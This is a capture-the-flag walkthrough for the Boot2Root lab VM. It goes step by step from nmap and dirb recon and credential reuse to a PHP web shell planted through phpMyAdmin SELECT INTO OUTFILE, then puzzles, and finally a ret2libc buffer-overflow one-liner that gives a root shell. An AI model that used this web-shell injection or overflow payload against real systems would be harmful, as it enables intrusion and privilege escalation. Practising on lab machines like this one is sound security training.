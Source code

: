  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

We need to understand what we can gain access to and where it is located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap 192.168.99.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
From this we know that the exact ip ends with .100 and that port
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)


* Now that we know the IP, we're going to use DIRB to gather information about the file structure.
[DIRB](https://sourceforge.net/projects/dirb/files/)
is a tool that uses dictionaries of common file systems naming paterns in order uncover their presence.


```
./dirb https://192.168.99.100/ wordlists/common.txt -w
```

We uncover :

- https://192.168.99.100/forum/  with subfolders:
  - js
  - lang
  - modules
  - templates_c
  - themes
  - update
- https://192.168.99.100/phpmyadmin/
- https://192.168.99.100/webmail/

-------------------------------------------------------------------------------------------

Lets start by accessing the forum. There's a link that displays the users and what they posted, lmezard posted "Probleme login ?"  

![forum](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/forum1.png)

It links to a log output of what seems to be admin logins 

When looking for the lmezard "Failed password for invalid user", one line seems very out of place: ```Failed password for invalid user !q\]Ej?*5K5cy*AJ```

Could this be lmezard's password? :smirk:

With this password we can then login to the forum with lmezard's credentials and discover that her email address is laurie@borntosec.net

-------------------------------------------------------------------------------------------

Let's try to log to the webmail with this email and the same password:

![webmail](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

Nice...
Let's check the mail DB ACCESS:

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
***Bouyaaa !!!***


--------------------------------------------------------------------------------------------

Now lets login to phpmyadmin

login: root
password: Fg-'kKXBj87E:aJ$


Following [This tutorial on PHPmyadmin exploitation](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

We're going to inject a php file that allows us to run shell commands within the browser.
By trying the differents subfolders of the forum we finally uncover that phpmydamin has writing rights to templates_c:

```SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";```

"/var/www/html/" because this is where websites are normally stored on a server.


![phpmyadmin](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

---------------------------------------------------------------------------------------------

* Funny thing is we can now navigate the server through the web browser
```https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home/```

From there we uncover the presence of an intersting folder called ***LOOKATME*** inside the home folder that contains a file called password

```https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password```

this gives us the pair: ```lmezard:G!@M6f4Eatau{sF"```

----------------------------------------------------------------------------------------------

Let's try that in the ftp access [ftp!](ftp://192.168.99.100/)

It works !

There's a file called "fun" and README file that says : ```Complete this little challenge and use the result as password for user 'laurie' to login in ssh```

-----------------------------------------------------------------------------------------------

## Puzzles to root access

fun turns out to be an archive, which when uncompressed shows multiples .pcap files (packets captured by a wireshark type sniffer). using ```grep return```  we can get 12 files each containing a character. By ordering the files in ascending order based on the comments values we get: "Iheartpwnage" 
A hint in the fun file also tells us to sha256 the result, which gives: "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"  

We can finally access to laurie's account to the server:

```laurie@192.168.99.100```
"330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
![ssh](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/ssh.png)

------------------------------------------------------------------------------------------------

There we find a README hinting that solving the bomb wil grant us access to thor's shh access

1. Bomb step 1
2. Bomb step 2
3. Bomb step 3
4. Bomb step 4
5. Bomb step 5
6. Bomb step 6

***This finally gets us access to thor's ssh !***

------------------------------------------------------------------------------------------------

Inside there is a file called turtle and a README telling us solving the riddle will grant us zaz's ssh access

The turtle file contains instruction structured like this:

```
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 50 spaces

Avance 210 spaces
Recule 210 spaces
Tourne droite de 90 degrees
Avance 120 spaces

Tourne droite de 10 degrees
Avance 200 spaces
Tourne droite de 150 degrees
Avance 200 spaces
Recule 100 spaces
Tourne droite de 120 degrees
Avance 50 spaces

Tourne gauche de 90 degrees
Avance 50 spaces
```

[Turtle](https://docs.python.org/2/library/turtle.html) turns out to be a python module used to draw pictures

By using our provided script, we parse and draw what turns to write "SLASH":

![turtle](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/turtle.png)

We then md5 SLASH in order to get zaz's password: "646da671ca01bb5d84dbb5fb2238dc8e"

------------------------------------------------------------------------------------------------------

## Buffer overflow

After connecting to zaz by ssh, we find a binary file called ***exploit_me***

Exploit_me has a particularity though, it has ***root rights***, meaning it has the right to execute root binaries limited to his reach :smirk: 

Lets check its content wih gdb and disasemble it:

![disas](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/disas.png)

And sure enough it uses the strcpy function, which is a well known security risk, as it doesn't compare the input size to its destination buffer. This allows to to atempt an attack by ret2libc


- We place 3 breakpoints (```b * <address>```) in the program:
  - One at the begining of the execution
  - One at the call to strcpy
  - One after the return value of strcpy

- We then run the program a first time with a random input ```OSEF``` in order to get the buffer address
- We get adsress of the system function with ```p system```                                          
------------------------------------------------
![system](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/system.png)
- Then we fetch the address of the char str "/bin/sh" with the command: ```find &system,+9999999, "/bin/sh"```
- Finally we get the buffer size by substracting the address of $eip with the buffer address and find ***140***: 
------------------------------------------------
![substract](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/substract.png)

- This allows us to launch the ret2lib attack with this command: 

```./exploit_me $(python -c "print('A'*140 + '\xb7\xe6\xb0\x60'[::-1] + 'OSEF' + '\xb7\xf8\xcc\x58'[::-1])")``` 
Which gives us a shell with root access !

![congrats_overflow](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats_overflow.png)




